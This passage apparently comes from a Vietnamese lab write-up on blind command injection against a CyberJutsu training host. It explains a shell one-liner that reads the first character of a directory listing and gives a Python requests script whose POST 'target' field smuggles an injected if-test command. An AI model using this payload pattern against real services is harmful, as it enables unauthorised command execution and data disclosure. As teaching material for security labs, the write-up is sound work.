     Câu lệnh điều kiện `if` là

    ```bash
    ls / | tr -d '\n' | cut -c 1
    ```

    Đây là lệnh in ra kết quả của câu lệnh `ls /` rùi thực hiện lược bỏ nhừng kí tự xuống đòng, rùi đọc kí tự đầu tiên của chuỗi đó.

    Ví dụ:

    ```txt
    bin
    tmp             ------>        bintmptung.txt
    tung.txt
    ```

- Sau đó ta thực hiện viết script bằng python. Lúc này ta thực hiện sử dụng thư viện `requests`.

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    #đây là payload exploit
    inject = 'z /var/www/html/index.php; if [ `ls | tr -d \'\\n\' | cut -c 1` = \'2\' ];then echo "1";else echo "zip error";fi #'

    # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
    # hai tham số POST sẽ được dặt vòa một tham số thứ 2
    r = requests.post(URL, {'command':'backup', 'target':inject})

    #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
    print(r.text)
    ```

    ![alt text](IMG/6/image-11.png)
